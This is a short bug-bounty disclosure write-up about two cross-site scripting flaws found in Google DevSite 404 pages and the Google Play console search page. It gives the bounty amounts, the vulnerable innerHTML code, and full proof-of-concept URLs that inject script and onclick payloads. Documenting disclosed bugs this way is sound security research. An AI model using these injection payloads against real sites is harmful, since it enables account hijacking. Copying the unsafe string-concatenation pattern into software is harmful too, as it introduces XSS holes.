 ```yaml
---
title: Google XSS
---
```


# Google DevSite XSS (cloud.google.com, developers.google.com) $3133.70

Due to a vulnerability in the server-side implementation of `<devsite-language-selector>` part of the URL was reflected as html so it was possible to get XSS on the origins using that component from the 404 page.  
This was found using [DalFox](https://dalfox.hahwul.com/docs/home/) which kept finding the same bug due to it being the "not found" page.

https://developers.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a
https://cloud.google.com/foo%22%3E%3Cimg%20src=x%3E%3C/a%3E%3C/li%3E%3C/ul%3E%3C/devsite-language-selector%3E%3Ch1%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/a

# Google Play XSS (play.google.com) $5000

On the search page of google play console vulnerable code was run when the search resulted in an error.  
Getting an error was simple as doing `/?search=&` and because `window.location` includes the hash which never encodes `'` it’s possible to escape the href context and set other html attributes, unlike the DevSite XSS this is prevented by the CSP but was still awarded more by the panel.

```js
b.innerHTML = b.innerHTML.replace(
  /({query})/g,
  "<a href='" + window.location + "'>" + a.g + "</a>",
);
```

https://play.google.com/console/about/search-results/?search=&#'onclick=alert(document.domain)//

The writeups are referenced on [PortSwigger](https://portswigger.net/daily-swig/xss-vulnerabilities-in-google-cloud-google-play-could-lead-to-account-hijacks)

